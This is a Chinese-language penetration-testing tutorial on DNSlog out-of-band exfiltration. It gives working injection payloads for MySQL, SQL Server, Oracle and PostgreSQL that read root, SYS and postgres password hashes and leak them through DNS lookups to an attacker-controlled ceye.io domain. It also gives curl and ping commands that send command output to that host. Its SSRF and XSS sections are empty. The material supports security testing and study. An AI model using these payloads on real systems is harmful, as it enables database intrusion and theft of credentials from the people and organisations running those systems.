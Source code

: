 <!-- TOC -->

- [前言](#前言)
- [技术说明](#技术说明)
- [利用场景](#利用场景)
- [技术原理](#技术原理)
- [利用细节](#利用细节)
    - [SQL注入](#sql注入)
        - [MySQL](#mysql)
        - [SQL Server](#sql-server)
        - [Oracle](#oracle)
        - [PostgreSQL](#postgresql)
    - [命令执行](#命令执行)
    - [SSRF](#ssrf)
    - [XSS](#xss)
- [DNSlog平台的搭建](#dnslog平台的搭建)
- [参考](#参考)

<!-- /TOC -->
## 前言
&emsp;我们在测试盲注的时候，发现速度非常慢，那这个时候，爱思考的人就想到了利用DNS来突破这个限制，准确来说是利用DNS的log功能。

## 技术说明
&emsp;DNSlog注入属于带外通信的一种，英文：Out of Band，简称：OOB。我们之前的注入都是在同一个信道上面的，比如我们之前的联合查询注入，都是做HTTP请求，然后得到HTTP返回包，没有涉及到其他的信道，比如DNS。而带外通信，至少是要涉及到两个信道的。信道：在计算机中，指通信的通道，是信号传输的媒介。


## 利用场景
&emsp;每项技术都有其利用场景，并非万能的，而DNS log注入技术也是，我们在进行SQL盲注、命令执行、SSRF及XSS等攻击而无法看到回显结果时，就会用到该技术。

## 技术原理
![](https://p4.ssl.qhimg.com/t01a278167ad3a008db.jpg)

如图所示，作为攻击者，提交注入语句，让数据库把需要查询的值和域名拼接起来，然后发生DNS查询，我们只要能获得DNS的日志，就得到了想要的值。所以我们需要有一个自己的域名，然后在域名商处配置一条NS记录，然后我们在NS服务器上面获取DNS日志即可。

简单说就是：DNSLog 用于监测 DNS 和 HTTP 访问记录，可通过HTTP请求，让目标主机主动请求 DNSLog API 地址，有相应的解析记录，则可判定为存在相应的漏洞。

## 利用细节
### SQL注入
#### MySQL
    * 支持load_file()函数（高版本默认不支持）
    * 开启allow_url_fopen（默认开启）

主体语句：`SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));`

dvwa实战语句：`'and SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc')) AnD '1'='1`


**UNC路径**

以下是百度的UNC路径的解释
>UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。

其实我们平常在Widnows中用共享文件的时候就会用到这种网络地址的形式`\\sss.xxx\test\`

这也就解释了为什么CONCAT()函数拼接了4个\了，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

**因为Linux没有UNC路径这个东西，所以当MySQL处于Linux系统中的时候，是不能使用这种方式外带数据**

#### SQL Server
主体语句：`DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.8dmer4.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');`

实战语句：`';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.8dmer4.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"')--`

#### Oracle
```
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```


#### PostgreSQL
```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

### 命令执行
* Linux
```
curl http://ip.port.b182oj.ceye.io/`whoami`
ping -c 1 `whoami`.ip.port.b182oj.ceye.io
```

* Windows
```
ping %USERNAME%.b182oj.ceye.io

变量                     类型       描述
%ALLUSERSPROFILE%        本地       返回“所有用户”配置文件的位置。
%APPDATA%                本地       返回默认情况下应用程序存储数据的位置。
%CD%                     本地       返回当前目录字符串。
%CMDCMDLINE%             本地       返回用来启动当前的 Cmd.exe 的准确命令行。
%CMDEXTVERSION%          系统       返回当前的“命令处理程序扩展”的版本号。
%COMPUTERNAME%           系统       返回计算机的名称。
%COMSPEC%                系统       返回命令行解释器可执行程序的准确路径。
%DATE%                   系统       返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。
%ERRORLEVEL%             系统       返回上一条命令的错误代码。通常用非零值表示错误。
%HOMEDRIVE%              系统       返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
%HOMEPATH%               系统       返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
%HOMESHARE%              系统       返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。
%LOGONSERVER%            本地       返回验证当前登录会话的域控制器的名称。
%NUMBER_OF_PROCESSORS%   系统       指定安装在计算机上的处理器的数目。
%OS%                     系统       返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。
%PATH%                   系统       指定可执行文件的搜索路径。
%PATHEXT%                系统       返回操作系统认为可执行的文件扩展名的列表。
%PROCESSOR_ARCHITECTURE% 系统       返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。
%PROCESSOR_IDENTFIER%    系统       返回处理器说明。
%PROCESSOR_LEVEL%        系统       返回计算机上安装的处理器的型号。
%PROCESSOR_REVISION%     系统       返回处理器的版本号。
%PROMPT%                 本地       返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。
%RANDOM%                 系统       返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。
%SYSTEMDRIVE%            系统       返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。
%SYSTEMROOT%             系统       返回 Windows server operating system 根目录的位置。
%TEMP%和%TMP%            系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。
%TIME%                   系统       返回当前时间。使用与                                                                                   time       /t                                                                     命令相同的格式。由         Cmd.exe                  生成。有关                       time   命令的详细信息，请参阅 Time。
%USERDOMAIN%             本地       返回包含用户帐户的域的名称。
%USERNAME%               本地       返回当前登录的用户的名称。
%USERPROFILE%            本地       返回当前用户的配置文件的位置。
%WINDIR%                 系统       返回操作系统目录的位置。
```

### SSRF

### XSS

## DNSlog平台的搭建
&emsp;在我们实际的渗透中，我们不想使用一些别人家搭建的DNSlog平台，比较还是有可能被记录在别人的服务器上面的，这就涉及到保密的问题，那么就需要有自己可控的DNSlog平台。
&emsp;这里推荐BugScanTeam的 https://github.com/BugScanTeam/DNSLog ，该项目主页是有搭建教程的，按自己的需求搭建。


## 参考
[dnslog利用](http://byd.dropsec.xyz/2016/12/04/dnslog%E5%88%A9%E7%94%A8/)

[Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

[突破延迟注入和盲注速度限制，利用dns注入快速获取数据](https://phpinfo.me/2016/05/10/1210.html)

[sqlmap利用DNS进行oob(out of band)注入（转）](https://www.cnblogs.com/backlion/p/8984121.html)


[渗透技巧-mssql盲注与dnslog的完美结合(命令执行)](http://lawlietweb.com/2019/01/11/mssql%E7%9B%B2%E6%B3%A8%E4%B8%8Ednslog%E7%9A%84%E5%AE%8C%E7%BE%8E%E7%BB%93%E5%90%88(%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)/)

[HawkEye Log/Dns 在Sql注入中的应用](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)